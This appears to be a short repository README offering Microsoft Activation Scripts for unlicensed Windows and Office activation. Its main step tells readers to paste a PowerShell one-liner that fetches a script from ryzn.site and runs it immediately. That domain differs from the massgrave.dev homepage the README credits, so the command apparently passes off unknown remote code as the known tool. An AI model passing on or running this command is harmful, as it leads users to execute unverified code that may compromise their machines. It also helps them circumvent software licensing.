 ## windows-activators
## Microsoft Activation Scripts (MAS):

A Windows and Office activator using HWID / KMS38 / Online KMS activation methods, with a focus on open-source code and fewer antivirus detections.

## Download / How to use it?

### Method 1 - PowerShell

-   On Windows 10/11, right-click on the windows start menu and select PowerShell or Terminal.
-   Copy-paste the below code and press enter\
    `irm https://ryzn.site/kms.ps1 | iex`
-   You will see the activation options, and follow onscreen instructions.
-   That's all.

```
Latest Version: 1.6
Release date: 25-July-2022
```

### For more details, check Homepage:  https://massgrave.dev/

Credit to Massgrave

---

Made with Love ❤️

